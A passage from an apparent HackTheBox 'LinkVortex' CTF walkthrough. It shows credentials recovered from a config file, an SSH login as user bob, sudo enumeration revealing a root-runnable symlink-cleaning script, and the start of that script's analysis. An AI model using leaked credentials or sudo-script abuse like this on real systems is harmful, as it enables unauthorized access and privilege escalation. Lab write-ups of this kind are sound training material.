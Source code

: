 ```json
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
```

We got credentials of user bob.

Let's try to ssh to to machine.

```terminal
 ssh bob@linkvortex.htb
bob@linkvortex.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Dec  3 11:41:50 2024 from 10.10.14.62
bob@linkvortex:~$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
```

## **Privilege Escalation**

Let's check our privileges.

```terminal
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

We can run a bash script as root, let's see what it does.

### Code analysis

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
```